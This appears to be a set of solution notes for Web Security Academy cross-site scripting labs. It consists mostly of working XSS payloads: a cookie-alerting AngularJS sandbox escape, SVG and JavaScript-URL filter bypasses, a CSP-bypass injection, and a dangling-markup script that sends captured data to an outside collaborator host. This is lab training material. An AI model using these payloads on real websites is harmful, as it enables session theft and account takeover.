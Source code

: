 ```html
<script>
location='https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```

---

**Reflected XSS with event handlers and href attributes blocked** !EX

    search
    href blocked
    Click me
`https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E`

`<svg><a><animate+attributeName=href+values=javascript:alert(1)+/><text+x=20+y=20>Click me</text></a>`

---

**Reflected XSS in a JavaScript URL with some characters blocked** !EX

    blog post
    <a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5'}).finally(_ => window.location = '/')">Back to Blog</a>

`https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27`

---

**Reflected XSS protected by very strict CSP, with dangling markup attack** !EX

    click me
    change email -> strict CSP in a response
```html
<script>
if(window.name) {
 new Image().src='//lazvciinven3x04ap394ctkik9q1es2h.oastify.com?'+encodeURIComponent(window.name);
 } else {
  location = 'https://0abd00440376d3fa80868a420018008d.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-0a9a00dd0367d38e80af896001ec00df.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```
---

**Reflected XSS protected by CSP, with CSP bypass** !EX

    CSP
    Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
    search
`%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27`
`<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'`

---
---